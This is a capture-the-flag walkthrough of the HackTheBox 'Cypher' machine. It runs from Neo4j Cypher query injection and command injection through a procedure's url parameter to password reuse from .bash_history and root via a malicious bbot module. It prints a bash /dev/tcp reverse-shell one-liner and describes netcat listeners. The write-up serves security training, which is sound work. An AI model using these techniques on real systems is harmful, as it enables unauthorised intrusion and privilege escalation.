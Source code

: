 # 🔐 HTB Machine: Cypher
![Screenshot](https://imgur.com/mrgrbON.png)
### 🌐 Machine Information
- **IP:**  10.10.11.57
- **OS:** Linux
### 🔹 Initial Enumeration
- To start off, I performed a port scan to discover services running on the target: `nmap 10.10.11.57 -A -p- -oN nmap_scan`
![Screenshot](https://imgur.com/APIFmvR.png)
- Nmap Results 2 open ports: `22 (ssh)`, `80 (HTTP)`
- Navigating to 10.10.11.57 in a browser shows me Cypher's webpage. To view it properly, I added cypher.htb to /etc/hosts first.
![Screenshot](https://imgur.com/vf3gLqv.png)
- The website has a login page. Some trial messages hinted it wasn't using SQL but Cypher Query (since it's a Neo4j backend).
![Screenshot](https://imgur.com/32W8PkW.png)

### 🔹 Directory Enumeration
- Using gobuster, I enumerated hidden directory paths:
![Screenshot](https://imgur.com/4JsZ8fW.png)
![Screenshot](https://imgur.com/1Cu9NXR.png)
- I found some interesting directories like `/testing`, and `/api/cypher`

### 🔹 Source Analysis (/testing)
- The `/testing` directory contains a JAR file.
![Screenshot](https://imgur.com/w6oOUGD.png)
- Decompiling it brought me onto a source code of a function
![Screenshot](https://imgur.com/88g4XJM.png)

### 🔹 Query Injection
- Accessing the `/api/cypher` endpoint returned a "Field Required" message.
![Screenshot](https://imgur.com/Kynywf3.png)
- It seems like it needs a query field.
- So I tried to insert a cypher query In the query field
![Screenshot](https://imgur.com/cJgzkZ0.png)
- And it works, so I tried to see what function can I run.
- Using the `SHOW PROCEDURES;` I found a function that I got on the /testing directory.
![Screenshot](https://imgur.com/uwPyc1M.png)

### 🔹 Reverse Shell (neo4j)
- To execute a reverse shell, I base64-encoded a bash reverse: `bash -c 'bash -i >& /dev/tcp/[MY-IP]/[PORT] 0>&1'`
- Then I injected this base64-encoded command into the procedure’s url parameter. Meanwhile, I listened for a connection:
![Screenshot](https://imgur.com/Hgjgf0O.png)
- So basically, because the function needs a url, I use a dummy url and add a reverse shell encoded with base64, then it got decoded and executes the reverse shell.
- Running the injection successfully drops me into shell as `neo4j`.
![Screenshot](https://imgur.com/M9PIjPa.png)

### 🔹 User Access (graphasm)
- So when I checked `/etc/passwd`, there are other users with the name graphasm.
![Screenshot](https://imgur.com/xgeWWic.png)
- While searching trough files, I got some interesting files, its in `/var/lib/neo4j`
- There is some kind of password in the `.bash_history` file

 ![Screenshot](https://imgur.com/fSrevG6.png)
- So I tried to login to graphism user using this password
![Screenshot](https://imgur.com/M4e3uVK.png)
- And it works
- So with graphasm user I can get the user flag

 ![Screenshot](https://imgur.com/fY8t4qa.png)

### 🔹 Privilege Escalation (root)
- Running `sudo -l` as graphasm shows we can execute bbot as root.
![Screenshot](https://imgur.com/qo7Vr0k.png)
- Running bbot shows what can bbot do and its command
![Screenshot](https://imgur.com/ZqTMEra.png)
- Based on the bbot documentation I can use my own preset
![Screenshot](https://imgur.com/7xyQRfU.png)
- This allows me to use my custom modules also, based on this information I assume that I can create my custom preset that load my custom modules directory then I can run my malicious module to escalate my privilege as root
- To exploit this, There is a preset that is already provided in the `/home/graphasm` directory, I will modify it by adding the malicious module directory

 ![Screenshot](https://imgur.com/A0NUdKN.png)
- Now I will start making the malicious module, I will use the existing module as a reference, the existing module located in `/opt/pipx/venvs/bbot/lib/python3.12/site-packages/bbot/modules`
- I will use `bevigil.py` as reference
![Screenshot](https://imgur.com/gPCmnuK.png)
- I'm adding a reverse shell script at the top of the file so it runs first.
- Before running the custom bbot module, I run nc -lvnp 4444 first to catch the reverse shell
- Then I run this command to run the malicious script
![Screenshot](https://imgur.com/8xoLnVg.png)
- Then the nc will be root shell

 ![Screenshot](https://imgur.com/bDmX88C.png)
- With this I can get the root flag

 ![Screennshot](https://imgur.com/evWKZoZ.png)
